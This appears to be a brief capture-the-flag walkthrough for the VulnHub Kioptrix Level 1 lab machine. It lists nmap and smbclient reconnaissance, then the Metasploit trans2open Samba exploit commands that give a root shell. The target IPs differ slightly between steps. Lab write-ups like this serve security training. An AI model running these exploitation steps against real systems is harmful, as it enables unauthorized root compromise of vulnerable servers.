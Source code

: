 
# Kioptrix Level 1 Walkthrough

**VulnHub Link:** [Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)  
**Difficulty:** Easy  
**Release Date:** November 18, 2010  

---

## 1. Reconnaissance

### Nmap Scan

nmap -sV -p- 192.168.56.10


## 2. Enumeration

smbclient -L //192.168.56.101
Found Samba version 2.2.1a (vulnerable).

## 3. Exploitation

msfconsole
use exploit/linux/samba/trans2open
set RHOSTS 192.168.56.101
exploit
Successful shell as root.

